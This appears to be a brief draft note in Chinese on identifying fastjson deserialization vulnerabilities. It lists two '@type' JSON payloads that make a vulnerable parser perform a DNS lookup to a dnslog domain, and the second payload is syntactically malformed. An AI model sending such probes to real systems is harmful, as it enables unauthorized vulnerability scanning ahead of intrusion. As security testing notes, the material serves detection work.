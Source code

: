 ```yaml
---
title: "fastjson"
date: 2023-05-09T17:46:27+08:00
Tags: ["java"]
Caegories: ["漏洞发现","fastjson"]
draft: true


---
```


## 鉴别

```
1、dnslog
{"@type":"java.net.Inet4Address","val":"jbblr.safeveryday.cc"}
{"@type": "java.net.InetSocketAddress"{"address":,"val": "b.jbblr.safeveryday.cc"}}

```





























